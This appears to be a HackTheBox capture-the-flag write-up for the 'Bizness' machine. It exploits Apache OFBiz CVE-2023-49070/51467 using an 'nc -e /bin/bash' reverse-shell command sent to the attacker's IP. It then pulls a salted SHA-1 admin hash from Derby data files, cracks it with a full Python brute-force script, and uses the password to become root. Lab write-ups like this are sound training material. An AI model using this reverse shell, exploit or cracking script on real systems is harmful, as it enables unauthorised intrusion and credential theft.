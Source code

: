 ```yaml
---

categories: [HackTheBox]
tags: [ Ofbiz, SHA-1, PrivEsc]
img_path: /assets/images/
image:
  alt: Linux Easy Level Machine 💵
  path: GDA3faiXQAA_He5.jpg
  width: "1200"
  height: "630"
sticker: emoji//1f4b0
---
```

## Port Scan Results ⤵️
```bash
┌──(kali🔥kali)-[~/Downloads/HTB/Bizness]
└─$ sudo nmap -sC -sV -T4 -p- -oN Nmap_Results.txt 10.10.11.252 
Nmap scan report for 10.10.11.252
Host is up (0.16s latency).
Not shown: 65427 closed tcp ports (reset), 104 filtered tcp ports (no-response)
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 3e:21:d5:dc:2e:61:eb:8f:a6:3b:24:2a:b7:1c:05:d3 (RSA)
|   256 39:11:42:3f:0c:25:00:08:d7:2f:1b:51:e0:43:9d:85 (ECDSA)
|_  256 b0:6f:a0:0a:9e:df:b1:7a:49:78:86:b2:35:40:ec:95 (ED25519)
80/tcp    open  http       nginx 1.18.0
|_http-title: Did not follow redirect to https://bizness.htb/
443/tcp   open  ssl/http   nginx 1.18.0
| tls-nextprotoneg: 
|_  http/1.1
|_http-title: Did not follow redirect to https://bizness.htb/
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
| ssl-cert: Subject: organizationName=Internet Widgits Pty Ltd/stateOrProvinceName=Some-State/countryName=UK
| Not valid before: 2023-12-14T20:03:40
|_Not valid after:  2328-11-10T20:03:40
45257/tcp open  tcpwrapped
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
## Web Enumeration ⤵️

I checked port 80 and got redirected to a DNS name called `bizness.htb` so I set the hosts name first from `/etc/hosts` now I started directory traversing and got few directories like this ->

I got this exploit from web :
https://github.com/UserConnecting/Exploit-CVE-2023-49070-and-CVE-2023-51467-Apache-OFBiz

This helped me to gain the connection from victim machine as I found vulnerable to this CVE's `CVE-2023-49070` and `CVE-2023-51467` . 
```bash
python3 exploit1.py --url http://bizness.htb/ --cmd 'nc -e /bin/bash 10.10.14.31 4444'
```
![Exploit](Pasted%20image%2020240212110804.png)
_Checking the Exploit is working or not with a callback._
This verifies that the exploit is working and this machine is vulnerable to this exploit so lets get a proper shell now ->

![Reverse Shell from Exploit](Pasted%20image%2020240212111039.png)
_Getting reverse shell from exploit ._
Now I have a shell lets dig deeper into it ->

### SSH SHELL ⤵️

I got this information while recon that this directory contains the password ->

```bash
ofbiz@bizness:/opt/ofbiz/framework/resources/templates$ ls
ls
AdminNewTenantData-Derby.xml       index.jsp
AdminNewTenantData-MySQL.xml       Menus.xml
AdminNewTenantData-Oracle.xml      ofbiz-component.xml
AdminNewTenantData-PostgreSQL.xml  README.txt
AdminUserLoginData.xml             Screens.xml
build.gradle                       SecurityGroupDemoData.xml
CommonScreens.xml                  SecurityPermissionSeedData.xml
controller.xml                     services.xml
DemoData.xml                       Tests.xml
document.xml                       TypeData.xml
entitymodel.xml                    UiLabels.xml
Forms.xml                          web.xml
HELP.xml
```
within these files I got a file `AdminUserLoginData.xml` that reveals the password hash of admin ->
```xml
ofbiz@bizness:/opt/ofbiz/framework/resources/templates$ cat AdminUserLoginData.xml
cat AdminUserLoginData.xml
<?xml version="1.0" encoding="UTF-8"?>
...
...
<entity-engine-xml>
    <UserLogin userLoginId="@userLoginId@" currentPassword="{SHA}47ca69ebb4bdc9ae0adec130880165d2cc05db1a" requirePasswordChange="Y"/>
    <UserLoginSecurityGroup groupId="SUPER" userLoginId="@userLoginId@" fromDate="2001-01-01 12:00:00.0"/>
</entity-engine-xml>
ofbiz@bizness:/opt/ofbiz/framework/resources/templates$ 
```
This hash `{SHA}47ca69ebb4bdc9ae0adec130880165d2cc05db1a` does not decrypt so I enumerated further more related to the password search and I found another file in .bat extension that contains the salt of the password hash for admin user ->
`runtime/data/derby/ofbiz/seg0/c54d0.dat`
I got password salt from this file :
```xml
ofbiz@bizness:/opt/ofbiz$ strings runtime/data/derby/ofbiz/seg0/c54d0.dat
strings runtime/data/derby/ofbiz/seg0/c54d0.dat
8501
<?xml version="1.0" encoding="UTF-8"?>
            <ofbiz-ser>
                <map-HashMap>
                    <map-Entry>
                        <map-Key>
                            <std-String value="recurrenceInfoId"/>
                        </map-Key>
                        <map-Value>
                            <std-String value="400"/>
                        </map-Value>
                    </map-Entry>
                </map-HashMap>
            </ofbiz-ser>
        
10000
J<?xml version="1.0" encoding="UTF-8"?><ofbiz-ser>
    <map-HashMap>
        <map-Entry>
            <map-Key>
                <std-String value="updatedUserLogin"/>
            </map-Key>
            <map-Value>
                <eeval-UserLogin createdStamp="2023-12-16 03:40:23.643" createdTxStamp="2023-12-16 03:40:23.445" currentPassword="$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I" enabled="Y" hasLoggedOut="N" lastUpdatedStamp="2023-12-16 03:44:54.272" lastUpdatedTxStamp="2023-12-16 03:44:54.213" requirePasswordChange="N" userLoginId="admin"/>
            </map-Value>
        </map-Entry>
        <map-Entry>
            <map-Key>
                <std-String value="locale"/>
            </map-Key>
            <map-Value>
                <std-Locale value="en"/>
            </map-Value>
        </map-Entry>
    </map-HashMap>
</ofbiz-ser>
ofbiz@bizness:/opt/ofbiz$ 
```

Now I have the salt value that is added with password to generate that hash value of SHA-1 encryption.  
```bash
currentPassword="$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I"
```

I got a script searching online as the code is a utility for finding a password given its hash value and salt, using brute-force techniques with a wordlist of potential passwords. It makes use of cryptographic techniques like hashing and salting to securely compare potential passwords against the target hash.

```python
import hashlib
import base64
import os
from tqdm import tqdm

class PasswordEncryptor:
    def __init__(self, hash_type="SHA", pbkdf2_iterations=10000):
        self.hash_type = hash_type
        self.pbkdf2_iterations = pbkdf2_iterations

    def crypt_bytes(self, salt, value):
        if not salt:
            salt = base64.urlsafe_b64encode(os.urandom(16)).decode('utf-8')
        hash_obj = hashlib.new(self.hash_type)
        hash_obj.update(salt.encode('utf-8'))
        hash_obj.update(value)
        hashed_bytes = hash_obj.digest()
        result = f"${self.hash_type}${salt}${base64.urlsafe_b64encode(hashed_bytes).decode('utf-8').replace('+', '.')}"
        return result

    def get_crypted_bytes(self, salt, value):
        try:
            hash_obj = hashlib.new(self.hash_type)
            hash_obj.update(salt.encode('utf-8'))
            hash_obj.update(value)
            hashed_bytes = hash_obj.digest()
            return base64.urlsafe_b64encode(hashed_bytes).decode('utf-8').replace('+', '.')
        except hashlib.NoSuchAlgorithmException as e:
            raise Exception(f"Error while computing hash of type {self.hash_type}: {e}")

def brute_force_hash(search, salt, wordlist):
    encryptor = PasswordEncryptor("SHA1")

    # Get the number of lines in the wordlist for the loading bar
    total_lines = sum(1 for _ in open(wordlist, 'r', encoding='latin-1'))

    # Iterate through the wordlist with a loading bar and check for a matching password
    with open(wordlist, 'r', encoding='latin-1') as password_list:
        for password in tqdm(password_list, total=total_lines, desc="Processing"):
            value = password.strip()

            # Get the encrypted password
            hashed_password = encryptor.crypt_bytes(salt, value.encode('utf-8'))

            # Compare with the search hash
            if hashed_password == search:
                print(f'Found Password: {value}, hash: {hashed_password}')
                return

    print("Password not found in wordlist.")

# Example usage:
search = "$SHA1$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I="
salt = "d"
wordlist = '/usr/wordlist/rockyou.txt'

# Call the function to brute force the hash
brute_force_hash(search, salt, wordlist)
```
I tried it and got this password :
![Password](Pasted%20image%2020240212142343.png)
```text
monkeybizness
```
Lets try to login as root now with that password ->

```bash
ofbiz@bizness:~$ su root
su root
Password: monkeybizness

root@bizness:/home/ofbiz# cd ~
cd ~
root@bizness:~# whoami
whoami
root
root@bizness:~# id
id
uid=0(root) gid=0(root) groups=0(root)
root@bizness:~# ls -al
ls -al
total 28
drwx------  4 root root 4096 Feb 12 05:35 .
drwxr-xr-x 18 root root 4096 Dec 21 09:15 ..
lrwxrwxrwx  1 root root    9 Dec 16 05:21 .bash_history -> /dev/null
-rw-r--r--  1 root root  571 Apr 10  2021 .bashrc
drwxr-xr-x  7 root root 4096 Dec 21 09:15 .gradle
drwxr-xr-x  3 root root 4096 Dec 21 09:15 .local
-rw-r--r--  1 root root  161 Jul  9  2019 .profile
-rw-r-----  1 root root   33 Feb 12 05:35 root.txt
root@bizness:~# cat root.txt
cat root.txt
d3cba9747437274175d79eb0761a6371
root@bizness:~# 
```
I am root now !!
